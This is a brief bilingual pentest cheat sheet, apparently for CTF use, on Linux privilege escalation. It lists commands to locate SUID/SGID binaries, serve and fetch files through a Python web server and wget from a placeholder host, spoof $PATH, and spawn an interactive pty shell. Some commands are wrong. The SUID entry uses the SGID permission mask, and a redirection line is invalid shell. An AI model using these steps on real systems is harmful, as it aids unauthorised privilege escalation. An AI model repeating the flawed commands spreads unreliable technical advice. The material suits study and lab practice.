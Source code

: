 ア | キ | ラ


## FIND SUID BIN

**SUID** est une autorisation de fichier spéciale pour les fichiers exécutables qui permet à d'autres utilisateurs d'exécuter le fichier avec les autorisations effectives du propriétaire du fichier. Au lieu du `x` qui représente les autorisations d'exécution, vous verrez une autorisation spéciale `s` (pour indiquer **SUID** ) à l'utilisateur.

>$ find / -perm -2000 2>/dev/null

## FIND SGID BIN

Contrairement au **_SUID_**, le **_SGID_**,  s’applique aussi bien aux fichiers qu’aux répertoires. En ce qui concerne les fichiers, rien ne change.

>$ find / -perm -2000 2>/dev/null
>

![](https://hackingeek.com/wp-content/uploads/2021/09/Image5-1.png)


## SHARE LOCAL FILES WITH A HTTP PYTHON SERVER

Spawn the local http server

>$ python3 -m http.server 1337



>$ python -m SimpleHTTPServer 9000

Get shared file 

>$ wget http://Myip/file



## FIND SPECIFIC FILE

>$ find PATH OPTION SEARCH
>
>$ find / -name "flag.txt" 2>/dev/null

Option

-name, -iname : Search by name 
-type                : Search by type
-user, -group   : Search by group or user
-perm              : Search by perm

## PIPE INTO  VOID

>$ 2>/dev/null
>
>$ command | 2>/dev/null

## $PATH SPOOFING

> $ export PATH="/tmp/fakepath:$PATH"

## SPAWN BETTER SHELL

>$ python3 -c 'import pty;pty.spawn("/bin/bash")'